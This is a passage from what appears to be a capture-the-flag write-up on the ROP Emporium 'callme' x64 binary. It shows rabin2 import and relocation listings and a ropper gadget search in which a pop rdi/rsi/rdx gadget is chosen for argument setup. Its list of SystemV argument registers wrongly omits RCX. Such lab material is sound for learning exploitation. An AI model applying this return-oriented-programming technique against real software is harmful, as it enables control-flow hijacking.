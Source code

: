 ```bash
kali@kali:~/Desktop/rop/callme/x64$ rabin2 -iR callme 
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit

[Relocations]

vaddr      paddr      type   name
―――――――――――――――――――――――――――――――――
0x00600ff0 0x00000ff0 SET_64 __libc_start_main
0x00600ff8 0x00000ff8 SET_64 __gmon_start__
0x00601018 0x00001018 SET_64 puts
0x00601020 0x00001020 SET_64 printf
0x00601028 0x00001028 SET_64 callme_three
0x00601030 0x00001030 SET_64 memset
0x00601038 0x00001038 SET_64 read
0x00601040 0x00001040 SET_64 callme_one
0x00601048 0x00001048 SET_64 setvbuf
0x00601050 0x00001050 SET_64 callme_two
0x00601058 0x00001058 SET_64 exit
0x00601070 0x00601070 SET_64 stdout


12 relocations
```
And I also need a gadget to get the values into registers prior to calling the function. As the binary uses SystemV conventions, arguments are passed using registers RDI, RSI, RDX, R8 and R9 (see reference).
```bash
kali@kali:~/Desktop/rop/callme/x64$ ropper --file=callme --search pop
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme
0x000000000040099c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099e: pop r13; pop r14; pop r15; ret; 
0x00000000004009a0: pop r14; pop r15; ret; 
0x00000000004009a2: pop r15; ret; 
0x00000000004007bb: pop rbp; mov edi, 0x601070; jmp rax; 
0x000000000040099b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099f: pop rbp; pop r14; pop r15; ret; 
0x00000000004007c8: pop rbp; ret; 
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; <---- this one is perfect
0x00000000004009a3: pop rdi; ret; 
0x000000000040093e: pop rdx; ret; 
0x00000000004009a1: pop rsi; pop r15; ret; 
0x000000000040093d: pop rsi; pop rdx; ret; 
0x000000000040099d: pop rsp; pop r13; pop r14; pop r15; ret;
```